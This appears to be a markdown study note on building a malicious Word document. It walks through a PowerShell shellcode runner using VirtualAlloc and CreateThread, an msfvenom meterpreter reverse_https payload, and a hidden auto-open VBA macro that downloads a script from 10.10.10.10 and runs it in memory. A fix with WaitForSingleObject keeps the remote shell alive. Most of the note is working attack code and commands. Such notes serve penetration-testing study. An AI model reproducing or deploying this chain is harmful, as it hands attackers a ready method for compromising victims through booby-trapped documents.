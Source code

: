 # Powershell Shellcode Runner
- Instruct macro to download powershell script
- Run in memory
- Launch as word child process (will run after word closes)

## 1. Translate arguments of required functions
Translate `VirtualAlloc` and `CreateThread`. Instead of `RtlMoveMemory` we'll use the .NET copy method.

```ps
$kernel32 = @"
using System;
Using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr IpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32",CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $kernel32
```

## 2. Generate Powershell Shellcode 
Copy the resulting buffer into our powershell script (x.ps1):
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 EXITFUNCT=thread -f ps1

[Byte[]] $buf = 0xfc, 0x48 ...
```

Start setting the api arguments:
```ps
$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$addr,$size);

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

Save the file as x.ps1 and spin up a webserver:
```sh
python3 -m http.server 4444
```

## 3. Create Cradle
The goal is to trigger this from a word macro. A cradle will download our code into memory and execute it.
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:4444/x.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

## 4. Troubleshooting
We can see that our webserver receives the download request, but we are not seeing a shell. This is because our process is being terminated before it can start. Our current shell dies as soon as the PowerShell process terminates.

## 5. WaitSingleObject API
Instruct PS to delay termination until our shell fully executes.
- CreateThread will return a handle to the newly created thread
- Pass new handle to WaitForSingleObject
- 0xFFFFFFFF instructs the program to wait forever or until we exit the shell
- Type cast this value to a NET static type unsigned int [uint32], as PS only uses signed int 
```sh
[DllImport("kernel32.dll")]
public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
